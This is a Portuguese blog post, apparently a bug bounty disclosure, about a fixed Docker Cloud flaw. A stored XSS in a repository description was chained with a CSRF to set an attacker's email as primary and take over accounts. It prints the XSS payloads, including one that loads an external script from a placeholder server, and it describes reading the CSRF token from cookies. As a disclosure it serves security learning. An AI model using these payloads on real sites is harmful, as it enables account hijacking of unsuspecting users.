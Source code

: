 ```yaml
---
layout: post
title:  "Bug Bounty 00 - Full Account Takeover Docker Cloud (My First CSRF)"
date:   2019-05-15 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei no Docker Cloud (<a href="https://cloud.docker.com/" target="_blank">Docker Cloud</a>). Esta falha já foi corrigida e tive permissão de falar sobre ela citando o vendor, então vamos la :)
</p>

<p align="justify">
Bom, a vulnerabilidade que está no título foi o resultado final de uma cadeia (chain) de outras vulnerabilidades que encontrei inicialmente no domínio do Docker Cloud.
</p>

<p align="justify">
Enquanto navegava pelos repositórios do Docker Cloud, percebi que o usuário podia inserir uma  breve e também uma completa descrição a respeito do projeto. Decidi inserir algumas tags na descrição completa só para teste mesmo (não esperava que realmente iria acontecer), comecei com o famoso <code>&lt;script&gt;alert(document.domain);&lt;/script&gt;</code> e para minha não surpresa, não ocorreu nada.
<br>
<br>
Decidi então inserir uma tag de imagem com um evento Javascript:
<br>
<code>&lt;img src="x" onerror="alert(document.domain)"/&gt;</code>
<br>
salvei e quando a descição foi atualizada, boooommm :)
<br>
<img src="/images/bug_bounty/bb00-00.png"/>
</p>

<p align="justify">
Neste ponto, já havia um XSS Stored (Armazenado), pois qualquer usuário que visitasse o meu repositório com o código iria se deparar com o alert(document.domain) sendo executado.
<br>
<br>
Foi então que tive uma ideia de escalar ainda mais a vulnerabilidade, então fui procurar mais sobre e me deparei com o CSRF (Cross Site Request Forgery), que é um tipo de ataque onde você força o usuário a relizar ações forjadas (o usuário acha que está realizando uma ação, mas na verdade está realizando outra). Descobri que para isso eu teria que carregar um script externo, e como a tag script não estava disponível, foi necessário utilizar os eventos JS das tags HTML :)
<br>
<br>
Usei o seguinte payload:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/reset.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
que tem como objetivo inserir um novo atributo do tipo javascript no head do HTML da página que será carregado a partir do arquivo <i>reset.js</i> que no caso é o arquivo js que contém o código do exploit.
</p>

<p align="justify">
Para realizar as requisições, era necessário ter o <b>XCSRF-Token</b> do usuário e também que ele estivesse no domínio cloud.docker.com (pode ser acessado pelo domínio hub.docker.com também :) ), pois apenas ele tinha permissão de realizar as requisições para a api.
<br>
<br>
Estas requisições, são as responsáveis pela inserção do email do atacante na conta do usuário e pela definição deste email como primário (quando o usuário reseta a senha o link é enviado para o email primário), portanto o usuário pode ter vários emails, mas o link só será enviado para o endereço de email primário.
</p>

<p align="justify">
Então, primeiramente para ter acesso ao XCSRF-Token do usuário, foi necessário apenas obtê-lo pelo document.cookie (não estava com a flag httpOnly habilitada).
<br>
<br>
E para realizar as requisições, primeramente, no exploit verificava se a URL atual que o usuário estava acessando o repositório era cloud.docker.com, caso fosse positivo ele apenas realizaria as requisições, caso contrário ele redirecionava o usuário para o domínio permitido para realizar as requisições (cloud.docker.com).
</p>

<p align="justify">
Tendo tudo isso em mãos, era necessário apenas realizar as requisições para adicionar o email do atacante na conta do usuário e setar como email primário :)
<br>
<br>
Vale lembrar que o email que o atacante utilizaria não deveria estar cadastrado em nenhuma outra conta :)
<br>
<br>
Tendo efetuado com sucesso o ataque, o atacante teria acesso permanente à conta do usuário, pois mesmo que fosse enviado um link para resetar a senha, seria enviado para o email primário da conta (no caso o do atacante).
</p>

<p align="justify">
Então resumindo, foi utilizado um XSS Stored encadeado com um CSRF para ter acesso permanente à conta de qualquer usuário que acessasse o repositório malicioso :).
</p>

<p align="justify">
Abaixo há a PoC da vulnerabilidade:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/wHWfAo76xMY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
Quero agradecer ao <a href="https://twitter.com/K33r0k" target="_blank"><b>k33r0k</b></a> por ter me ajudado a desenrolar a chain com as vulnerabilidades :)
</p>

<p align="justify">
Bom galera, espero que eu tenha passado de forma clara essa resolução da vulnerabilidade encontrada no docker, como já disse ela foi corrigida, já fui recompensado e também fui permitido de realizar o disclosure.
<br>
<br>
Irei trazer mais resoluções ao longo do tempo.
<br>
<br>
Antes que eu esqueça, o exploit pode ser encontrado no meu github: <a href="https://github.com/vitor-fernandes/exploits/blob/master/exploitDocker.js" target="_blank" style="color: blue"><b>Exploit CSRF Docker</b></a> 
</p>